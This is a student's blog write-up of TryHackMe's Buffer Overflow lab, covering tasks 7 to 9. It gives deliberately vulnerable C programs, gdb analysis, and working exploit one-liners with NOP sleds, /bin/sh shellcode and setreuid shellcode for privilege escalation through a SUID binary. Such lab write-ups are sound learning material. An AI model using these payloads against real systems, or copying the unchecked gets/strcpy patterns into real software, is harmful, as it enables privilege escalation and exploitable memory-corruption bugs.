 #+TITLE: My first (proper?) buffer overflow
#+DATE: <2023-12-05 13:34>
#+DESCRIPTION: 
#+FILETAGS: 

Everyone that works with computers has heard of the term buffer
overflow. It is not uncommon to cause such an unwanted behavior when
writing code yourself, over populating memory or performing prohibited
read/write operations. However, even though I understood what was
happening in a broader sense, I did not have any experience with
buffer overflows. Thankfully, my project on the Computer Network
Security course, reading on [[https://ieeexplore.ieee.org/document/6547101][this paper]], gave me "a reason" to try and
get into more depth. [fn:1]

I saw a couple of videos, wrote more than my fair share of articles,
and dug into one or more websites, but in the end, when I tried
TryHackMe's Buffer Overflow room, I was stuck.

* Criticism
I feel that this room could (and should) be improved. While it *does*
serve as an introduction to Buffer Overflow, it surely is not a
tutorial/walkthrough targeted towards beginners, implied by its "easy"
difficulty.

It was rather disheartening, to see myself get so stuck.

* Task 7
In this task we are asked to get ~special~, instead of ~normal~ to
execute:
#+NAME: Vulnerable c code
#+begin_src c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
#+end_src

Launching GDB:
#+NAME: GDB initialization
#+begin_src bash
 gdb ./func-pointer
#+end_src


I had not played around with gdb before, so I did not have any
ready-to-go set of notes available, and had to build my own from
scratch. 

To view the assembly commands and memory addresses for each function I
used the following:
#+begin_example
disassemble main
disassemble special
disassemble normal
#+end_example


#+caption: Interesting assembly commands and locations
[[file:images/Task_7/20231205_142939_screenshot.png]]

At this point, I knew that the two variables, pointer and buffer were
adjacent in memory, and since ~gets()~ is vulnerable to buffer
overflows, that means I could potentially use it to write to the ~new_ptr~

I also knew that:
- ~0x400582~ is the address of normal
- ~0x400567~ is the address of special

Having seen a related LiveOverflow video (an old one that got me
thinking of how slowly experience builds up), I was aware of the
~define hook-stop~ functionality to print specific parts of memory and
or registers at each break point, so all I had to do was set proper
breakpoints and fool around with the input.

In the end, I only needed one breakpoint, which I placed at position 2
in the image above: I just wanted to see the memory right before the
execution of the function ~new_ptr~ pointed to.

Then I started experimenting:
- ~run~
- give input
- see memory
- repeat


It quickly become evident that I was writing in the highlighted area,
and wanted to change the contents of the "circled" one's:
#+caption: Highlighting memory dump
[[file:images/Task_7/20231205_143929_screenshot.png]]

Unfortunately, I could not get the payload I had created to work
inside of gdb, not knowing how to get it to parse my input as hex: I
could see that I modified the target area (first payload), but the
second one could not work, to set it to its proper value (0x400567)

#+begin_example
AAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAA\x67\x05\x40\x00
#+end_example

#+caption: Setting ~new_ptr~ to all As
[[file:images/Task_7/20231205_144132_screenshot.png]]

To bypass this I relied on ~echo~: 

#+caption: Solution
 [[file:images/Task_7/20231205_140516_screenshot.png]]

 
* Task 8
#+begin_note
This was the first buffer overflow I attempted that resulted in the
execution of a different program for Privilege Escalation. Mistakes
are undoubtedly plenty, and if you find any, please feel free to
correct me in the comments.
#+end_note

#+NAME: Task 8 vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
#+end_src

Keeping it short,  when a function ends, the return address - the
address from which the computer should continue - exists in memory.
One (not-so-innocent) user, might try to modify this, so that another
program executes, thus modifying the flow of the program.

For example, the snippet above gives us 140 bytes to store
information, before it prints it to the command line. We could, and
this is the target of this task, populate /some/ of these 140 bytes with
a shellcode (code to spawn a shell for us), and modify the return
address of the ~copy_arg()~ function, so that when it is finished, it
does not return to ~main()~ but executes our payload, residing inside of
the ~buffer~ variable.

In addition to those 140 bytes to populate, we should also add enough
contents to overwrite the return value of the function.

Even though I suppose that this is not actual reverse engineering -
but focusing only on the buffer overflow part of the challenge: We
know the source code:
#+NAME: Task 8 source code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
#+end_src

Silly as it may seem, chatgpt does more than just a fine job helping
you revise assembly. It was fun analyzing where I should look at :P


#+caption: Filling buffer with A's and checking the return address
[[file:images/Task_8/20231205_234129_screenshot.png]]

- The highlighted one's (and the 0x41s in between) are our input
- The address in the block is the return address - the command
  following ~copy_arg~ in main

So while our input was alright to populate the buffer variable, it
needs to be improved to work for us:
- Checking at the picture we can see that the return address is found
  152 bytes after the first 'A' (0x41), and has a length of 4 bytes,
  meaning that we are interested in the bytes 152-156.

After modifying our input string just a little bit, we /hope/ to get the
return address "populated" with As.

#+caption: Overwritten return address
[[file:images/Task_8/20231205_234916_screenshot.png]]

The '\x90' string is the NOP (no operation) flag, and is extremely
useful when used as padding, because when assembly gets evaluated and
a NOP flag is encountered it is simply skipped (does not cause any errors) 

At this point, focusing on the buffer overflow and not on the
shellcode, I got the hex shellcode from a writeup to continue. (The
one in the room did not seem to work). This is 40 bytes.

#+begin_example
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
#+end_example

Modifying our input string once again to include the shellcode and the
buffer's address as a return address (remember, NOP), we expect to get
a shell:
- 0x7fffffffe370 becomes:
  - '\x70\xe3\xff\xff\xff\x7f'
  - Appended to our "payload"

#+NAME: Bufferoverflow
#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src
- That did not work at first for me because of a peculiar floating
  error. After inspecting my "payload" again and again I replaced the
  second padding with As instead of NOPs. It then worked.


Getting a shell, though, is not enough, since we do not have
permission to view the file we want (we remain as the same user,
despite the suid bit). We want to change our shellcode to have a
~setuid()~ statement in it:
- This is cheating, but once again, I reused someone else's shellcode,
  even though I knew about real and effective uids. It was out of
  scope for "my investigation" to get the shellcode.

#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*86 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src

* Task 9
This seems exactly the same as before. Let's see if we can tackle it quickly:
#+NAME: Vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
#+end_src

- doggo has 5 characters length, meaning that there are 149 more
  characters left to fill buffer. After that, there will be a padding
  and the return address.
- Following the same methodology as before, I fired up ~gdb~, set up

  #+caption: Started from the bottom now we here
[[file:images/Task_9/20231206_002813_screenshot.png]]

I then created the setuid payload once again, and then proceeded to
modify the payload to fit in our example.
#+begin_example
root@ip-10-10-80-64:~# pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
#+end_example

Namely the changes:
1. Different size:
   - Bytes 164-170 are of interest now
   - Our payload remains 54 bytes in length, so with a padding of 100
     and 9 we should be fine.
2. Different address:
   - As shown in the image above:
     - 0x7fffffffe3b0
     - 0xb0e3ffffff7f
     - \xb0\xe3\xff\xff\xff\x7f
#+begin_src bash
./buffer-overflow-2 $(python -c "print ('\x90'*99 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*10 + '\xb0\xe3\xff\xff\xff\x7f')")
#+end_src

That should work but I'm still getting segmentation fault. I suspect 
that my shell code address is somehow wrong. (Strangely, this somehow
worked after I modified the address to something closer to my
shellcode address in gdb - even though I had used an address pointing
to the preceding NOPs)

* In conclusion
This might be one of the best rooms I have ever checked out and I am
glad I did.

* Links:
Although I usually keep myself from searching for walkthroughs and
solutions, this time, partly due to the insufficiency of the
instructions and partly due to my inability to see what went wrong in
my good-looking attempts to solve each task , I have checked some
articles covering that same room
- https://l1ge.github.io/tryhackme_bof1/
  - I really liked the way of writing.
- https://bobloblaw321.wixsite.com/website/post/tryhackme-buffer-overflows 
  - Nice explanation of step 7. It was the author's comment on the
    proper way of entering input that made me realize my payload was
    not wrong, but the way I delivered it was.
- https://stackoverflow.com/questions/32345320/get-return-address-gdb
  - The ~info frame~ command helped me better understand 

* Footnotes

[fn:1] I am planning on publishing the resulting work here as soon as
I finish it. It was invigorating to see how my previous work,
structure and collection/organization allowed me to effectively tackle
the task of writing an academic paper. Maybe some notes on that are
due as well.
